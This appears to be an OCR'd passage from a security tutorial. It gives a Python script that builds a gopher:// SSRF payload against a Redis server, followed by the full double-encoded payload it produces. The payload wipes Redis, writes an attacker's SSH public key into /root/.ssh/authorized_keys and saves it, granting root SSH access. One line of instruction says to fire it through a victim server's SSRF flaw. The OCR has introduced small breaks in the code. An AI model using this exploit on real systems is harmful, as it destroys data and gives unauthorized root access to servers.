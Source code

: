 ```python
import urllib

protocol = "gopher://"
ip = "192.168.249.145"
port = "6379"
passwd = ""

ssh_pub="\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC96S69JNdIOUWoHYOvxpnQxHAVZHl25IkDFBzTbDIbJBBABu8vqZg2GFaWhTa2jSWqMZiYwyPimrXs+XU1kbP4P28yFvofuWR6fYzgrybe O0KX7YmZ4xN4LWaZYEeCxzJrV7BU9wWZIGZiX7Yt5T5M3bOKofxTqqMJaRP7J1Fn9fRq3ePz17BUJNtmRx54I3CpUyigcMSTvQOawwTtXa1ZcS056mjPrKHHBNB2/hKINtJj1JX8 R5Uz+3six+MVsxANT+xOMdjCq++1skSnPczQz2GmlvfAObngQK2Eqim+6xewOL+Zd2bTsWiLzLFpcFWJeoB3z209solGOSkF8nSZK1rDJ4FmZAUvl1RL5BSe/LjJO6+59ihSRFWu 99N3CJcRgXLmc4MAzO4LFF3nhtq0YrIUio0qKsOmt13L0YgSHw2KzCNw4d9Hl3wiIN5ejqEztRi97x8nzAM7WvFq71fBdybzp8eLjiR8oq6ro228BdsAJYevXZPeVxjga4PDtPk= root@kali\n\n"
filename = "authorized_keys"
path = "/root/.ssh/"

cmd = ["flushall",
	 "set ssrf {}".format(ssh_pub.replace(" ", "${IFS}")),
	 "config set dir {}".format(path),
	 "config set dbfilename {}".format(filename),
	 "save"
	]
if passwd:
	cmd.insert(0, "AUTH {}".format(passwd))

payload = protocol + ip + ":" + port + "/_"

def redis_format(arr):
	CRLF = "\r\n"
	redis_arr = arr.split(" ")
	cmd = ""
	cmd += "*" + str(len(redis_arr))
	for x in redis_arr:
		cmd += CRLF + "$" + str(len((x.replace("${IFS}", " "))))) + CRLF + x.replace("${IFS}", " "))
	cmd += CRLF
	return cmd

if __name__=="__main__":
	for x in cmd:
		payload += urllib.quote(redis_format(x))
	print payload
```

 - Perform the generated `url` quadratic encoding (because we use the GET method to send the payload), and then use the `SSRF` vulnerability on the victim server to use the quadratic encoding `payload` to attack:

```bash
gopher%3A%2F%2F192.168.249.145%3A6379%2F_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25244%250D% 250Assrf%250D%250A%2524566%250D%250A%250A%250A%250A%250A%250A%250A%250AAAAB3NzaC1yc2EAAAADAQABAAABgQC96S69JNdIOUWoHYOvxpnQxHAVZHl25IkDFBzTbDIbJBBABu8vqZg2GFaWhTa 2jSWqMZiYwyPimrXs%252BXU1kbP4P28yFvofuWR6fYzgrybeO0KX7YmZ4xN4LWaZYEeCxzJrV7BU9wWZIGZiX7Yt5T5M3bOKofxTqqMJaRP7J1Fn9fRq3ePz17BUJNtmRx54I3CpUyigcMSTvQOa wwTtXa1ZcS056mjPrKHHBNB2%2FhKINtJj1JX8R5Uz%252B3six%252BMVsxANT%252BxOMdjCq%252B%252B1skSnPczQz2GmlvfAObngQK2Eqim%252B6xewOL%252BZd2bTsWiLzLFpcFWJeoB 3z209solGOSkF8nSZK1rDJ4FmZAUvl1RL5BSe%2FLjJO6%252B59ihSRFWu99N3CJcRgXLmc4MAzO4LFF3nhtq0YrIUio0qKsOmt13L0YgSHw2KzCNw4d9Hl3wiIN5ejqEztRi97x8nzAM7WvFq7 1fBdybzp8eLjiR8oq6ro228BdsAJYevXZPeVxjga4PDtPk%253D%2520root%2540kali%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D% 250Aset%250D%250A%25243%250D%250Adir%250D%250A%252411%250D%250A%2Froot%2F.ssh%2F%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D %250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%252415%250D%250Aauthorized_keys%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%0D%0A
```

